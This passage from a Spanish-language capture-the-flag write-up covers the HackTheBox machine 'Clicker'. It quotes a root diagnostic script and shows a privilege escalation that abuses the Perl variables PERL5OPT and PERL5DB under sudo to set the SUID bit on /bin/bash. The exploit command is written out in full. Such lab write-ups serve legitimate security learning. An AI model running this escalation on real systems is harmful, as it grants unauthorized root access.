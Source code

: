 ```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```
Este script parece hacer un tipo diagnostico y lo guarda en el archivo  **/root/diagnostic_files/diagnostic...**, sin embargo, podemos ver que hace uso de variables de entorno de perl (PERL5LIB, PERLLIB), en este caso usa **unset** para eliminar esas variables de entorno en tiempo de ejecucion. Tomando en cuenta el uso de variables de entorno de perl y el uso de **/usr/bin/xml_pp** (otro script de perl), nosotros podemos abusar de las variables de entorno de perl para ejecutar comandos, mas en particular de **PERL5DB** y **PERL5OPT**, esta vulnerabilidad se le conoce como **perl_startup**

Para explotarla podemos ingresar:

```perl
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

- PERL5OPT=-d: se establece la variable de entorno **PERLOPT5** con el argumento -d, que significa modo de depuracion,
- Posteriormente se establece la variable de entorno **PERL5DB** con el valor de **exec** para ejecutar el comando que sigue

Basicamente lo que estara haciendo es ejecutar el script **monitor.sh** en modo de depuracion, y tomando en cuenta que podemos establecer variables de entorno, usamos **PERL5OPT** y **PERL5DB**  para ejecutar un comando arbitrario a la hora de depurar el script

Ahora solo queda ejecutar **bash -p** y seremos root

![](/assets/img/clicker/12.png)

Eso ha sido todo, gracias por leer ❤

